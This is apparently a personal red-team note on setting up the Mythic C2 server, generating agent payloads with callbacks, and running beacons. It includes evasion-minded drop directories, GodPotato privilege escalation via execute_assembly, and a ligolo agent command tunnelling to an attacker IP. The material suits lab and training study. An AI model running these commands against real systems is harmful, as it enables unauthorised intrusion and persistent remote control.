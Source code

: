 
Mythic is a C2 server, used to deploy and control agents often used for AV evasion or persistence. 

## Installing Mythic

```bash
# Install docker
sudo apt update -y
sudo apt install docker -y
sudo apt install docker.io -y
sudo apt install docker-compose -y

# Git clone
git clone https://github.com/its-a-feature/Mythic
cd Mythic

# We need to make the binary, from the makefile in the Mythic directory.
sudo make
```

Now we can run Mythic for the first time
```bash
# Run Mythic for the first time
sudo -E ./mythic-cli start

# The config file is stored here if we want to modify it
vi Mythic/.env

# We need to install agents
# We'll start with Poseidon, used for Mac and Linux
sudo ./mythic-cli install github https://github.com/MythicAgents/Poseidon

# Install Apollo for use on Windows
sudo ./mythic-cli install github https://github.com/MythicAgents/Apollo

# We'll also need to install the http profile.
sudo ./mythic-cli install github https://github.com/MythicC2Profiles/http
```
The 'installed services' tab is important, we can see what all is installed.
![[notes/Atomic-Notes/40-TOOLS/4000-OFFENSIVE-TOOLS/4170-MYTHIC-C2/Pasted image 20250526215523.png]]
## Web Interface
This is where can manage a lot of things. It's accessed at
`https://127.0.0.1:7443` by default
We'll find our admin credentials in the .env file
```bash
cat Mythic/.env | grep -i 'user'
cat Mythic/.env | grep -i 'password'

# If we wanted to, we could modify these, then restart Mythic
sudo ./mythic-cli restart
```

We can click 'Create Your First Payload'
![[notes/Atomic-Notes/40-TOOLS/4000-OFFENSIVE-TOOLS/4170-MYTHIC-C2/Pasted image 20250526215029.png]]
We can leave most of this stuff unchanged, except maybe statically compile the payload.
Additionally, changing the callback details is necessary

![[notes/Atomic-Notes/40-TOOLS/4000-OFFENSIVE-TOOLS/4170-MYTHIC-C2/Pasted image 20250526215701.png]]
We should be able to use our IP here, and port 80 is the default port. Even though we're not using HTTP/S, the traffic itself will be encrypted.
![[notes/Atomic-Notes/40-TOOLS/4000-OFFENSIVE-TOOLS/4170-MYTHIC-C2/Pasted image 20250526215905.png]]
We can see our page on the 'payloads' page
![[notes/Atomic-Notes/40-TOOLS/4000-OFFENSIVE-TOOLS/4170-MYTHIC-C2/Pasted image 20250526220223.png]]

We can just download and execute it. My first ever C2 beacon callback.
![[notes/Atomic-Notes/40-TOOLS/4000-OFFENSIVE-TOOLS/4170-MYTHIC-C2/Pasted image 20250526224612.png]]


## Windows Beacon
Run it in a good directory (C:\Windows\Tasks), (C:\Users\Public). 

```powershell
Start-Process beacon.exe
```



# Useful Beacon Commands
## Register Assembly
We can put dotnet binaries into the agent. This is an opsec effective way of executing binares

N
```
register_assembly GodPotato-NET4.exe
execute_assembly -Assembly GodPotato-NET4.exe -Arguments "-cmd 'c:\users\public\taskmanager.exe'"
```

## Download/Upload
Self explanatory

## Run
Runs an executable. A command might look like
```
run -Executable C:\Windows\tasks\ligolo-windows-agent.exe -Arguments "-connect 10.10.16.157:443 -ignore-cert"
```
## References
https://redsiege.com/blog/2023/06/introduction-to-mythic-c2/


